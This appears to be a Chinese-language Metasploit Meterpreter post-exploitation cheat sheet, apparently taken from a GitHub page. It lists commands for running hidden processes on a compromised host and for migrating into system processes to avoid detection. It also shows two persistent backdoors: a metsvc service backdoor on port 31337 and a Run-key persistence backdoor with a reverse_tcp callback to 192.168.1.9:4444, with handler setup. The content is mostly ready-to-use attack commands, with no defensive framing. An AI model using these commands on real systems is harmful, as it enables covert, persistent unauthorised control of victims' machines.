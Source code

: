 **执行程序**
```bash
execute -f <path> [options] # 在目标主机上执行 exe 文件
-H : 创建一个隐藏进程
-a : 传递给命令的参数
-i : 跟进程进行交互
-m : 从内存中执行
-t : 使用当前伪造的线程令牌运行进程
-s : 在给定会话中执行进程
```

**进程迁移**

当 meterpreter 单独作为一个进程运行时容易被发现,如果将它和系统经常运行的进程进行绑定,就能够实现持久化.
```bash
getpid          # 查看当前会话的进程 id
ps              # 查看目标运行的进程
migrate pid     # 绑定/迁移进程
```

**后门**

MSF 自带两种植入后门的方式

Meterpreter 的 shell 运行在内存中,目标重启就会失效,如果管理员给系统打上补丁,那么就没办法再次使用 exploit 获取权限,所以需要持久的后门对目标进行控制

- **metsvc 服务后门**

    原理：命令运行成功后会在 `C:\Users\用户名\AppData\Local\Temp` 目录下新建随机名称的文件夹,里面生成3个文件(metsvc.dll、metsvc-server.exe、metsvc.exe)同时会新建一个服务,显示名称为 Meterpreter,服务名称为 metsvc,启动类型为"自动",绑定在 31337 端口.

    ```bash
    # 自动化安装
    run metsvc -A

    use exploit/multi/handler
    set payload windows/metsvc_bind_tcp
    set rhost <lhost>
    set lport 31337
    exploit -j
    ```

- **persistence 启动项后门**

    原理就是在 `C:\Users\用户名\AppData\Local\Temp` 下上传一个 VBS 脚本，通过该脚本，在注册表 `HKLM\Software\Microsoft\Windows\CurrentVersion\Run\` 下新建一个开机启动项

    ```bash
    # 自动化部署
    run persistence -A

    run persistence -X -i 10 -r 192.168.1.9 -p 4444
    -A : 安装后门后,自动启动 exploit/multi/handler 模块连接后门
    -L : 自启动脚本的路径,默认为 %TEMP%
    -P : 需要使用的 payload,默认为 windows/meterpreter/reverse_tcp
    -S : 作为一个服务在系统启动时运行(需要 SYSTEM 权限)
    -T : 要使用的备用可执行模板
    -U : 用户登陆时运行
    -X : 系统启动时运行
    -i : 后门每隔多少秒尝试连接服务端
    -p : 服务端监听的端口
    -r : 服务端 ip
    ```
